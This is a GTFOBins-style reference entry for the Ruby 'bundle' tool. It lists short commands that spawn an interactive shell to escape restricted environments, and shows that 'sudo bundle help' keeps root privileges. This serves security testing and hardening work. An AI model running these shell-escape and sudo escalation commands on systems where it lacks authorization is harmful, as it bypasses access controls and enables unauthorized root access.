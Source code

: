 # GTFOBin: bundle

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

This invokes the default pager, which is likely to be  `less`, other functions may apply.

```
bundle help
!/bin/sh
```

```
export BUNDLE_GEMFILE=x
bundle exec /bin/sh
```

```
TF=$(mktemp -d)
touch $TF/Gemfile
cd $TF
bundle exec /bin/sh
```

This spawns an interactive shell via `irb`.

```
TF=$(mktemp -d)
touch $TF/Gemfile
cd $TF
bundle console
system('/bin/sh -c /bin/sh')
```

```
TF=$(mktemp -d)
echo 'system("/bin/sh")' > $TF/Gemfile
cd $TF
bundle install
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

This invokes the default pager, which is likely to be  `less`, other functions may apply.

```
sudo bundle help
!/bin/sh
```